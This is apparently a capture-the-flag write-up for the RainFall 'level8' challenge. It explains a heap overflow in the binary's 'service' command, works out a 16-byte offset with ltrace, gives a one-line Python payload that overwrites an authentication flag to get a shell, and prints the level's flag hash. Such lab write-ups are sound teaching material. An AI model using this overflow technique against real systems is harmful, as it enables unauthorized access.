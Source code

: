 # Analysis of the Binary

We've successfully extracted the source code from the binary. Here's an analysis of the key functionalities:

## Key Observations
- Multiple commands can be executed in any order.
- The `login` command checks a user structure for authentication status. If authenticated, it grants shell access.
- `auth` allocates memory for the user structure.
- `service` is a command with a `strdup` call, vulnerable to buffer overflow.

# Exploit Strategy

Observing that the user structure is allocated on the heap and the `service` command is susceptible to a buffer overflow, we can manipulate this to overwrite the user structure. This would trick the `login` command into granting us shell access.

## Steps for Exploitation
1. Use `auth` to allocate the user structure.
2. Use `service` to overflow the structure.
3. Execute `login` to verify authentication and obtain a shell.

## Calculating the Offset

Using `ltrace`, we can track the `malloc` and `strdup` calls to determine the offset between the user structure and the buffer:

```bash
$ ltrace ./level8
__libc_start_main(0x8048564, 1, 0xbffff7f4, 0x8048740, 0x80487b0 <unfinished ...>
printf("%p, %p \n", (nil), (nil)(nil), (nil)
)                                                               = 14
fgets(auth
"auth \n", 128, 0xb7fd1ac0)                                                               = 0xbffff6d0
malloc(4)                                                                                       = 0x0804a008
strcpy(0x0804a008, "\n")                                                                        = 0x0804a008
printf("%p, %p \n", 0x804a008, (nil)0x804a008, (nil)
)                                                           = 18
fgets(service
"service\n", 128, 0xb7fd1ac0)                                                             = 0xbffff6d0
strdup("\n")                                                                                    = 0x0804a018
[...]
level8@RainFall:~$
```

- The `malloc` call for the user structure returns `0x0804a008`.
- The `strdup` call returns `0x0804a018`.
- The distance between these addresses is `0x10` (16 bytes).
- Considering the user structure layout, the `is_auth` field is 32 bytes from the start.
- The required offset to overwrite `is_auth` is `32 - 16 = 16`.

## Executing the Exploit

Here's the sequence of commands to perform the exploit:

```bash
$ (echo "auth "; python -c 'print("service" + "A"*16)'; echo "login"; cat) | ./level8
```

1. `auth `: Allocates the user structure.
2. `python -c 'print("service" + "A"*16)'`: Overflows the buffer to overwrite `is_auth`.
3. `login`: Checks if the user is authenticated and, due to the overflow, grants shell access.
4. `cat`: Keeps the shell open to execute further commands.

Result:

```plaintext
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

The exploit successfully manipulates the program's behavior to gain unauthorized access.
